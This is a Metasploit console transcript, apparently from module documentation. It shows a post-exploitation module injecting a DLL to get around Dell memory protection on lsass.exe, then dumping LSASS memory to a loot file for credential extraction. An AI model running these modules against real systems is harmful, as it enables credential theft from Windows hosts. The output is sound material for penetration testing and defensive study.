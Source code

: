 ```
[*] Set PID option 664 for lsass.exe
[*] Launching netsh to host the DLL...
[+] Process 3008 launched.
[*] Reflectively injecting the DLL into 3008...
[+] Exploit finished
[*] Post module execution completed
msf post(windows/manage/dell_memory_protect) > use post/windows/gather/memory_dump
msf post(windows/gather/memory_dump) > run

[*] Running module against WIN-7ESIGFVFQEG
[*] Dumping memory for lsass.exe
[*] Downloading minidump (4.70 MiB)
[+] Memory dump stored at /home/albinolobster/.msf4/loot/20211218041511_default_172.16.144.14_windows.process._536152.bin
[*] Deleting minidump from disk
[*] Post module execution completed
msf post(windows/gather/memory_dump) > 
```
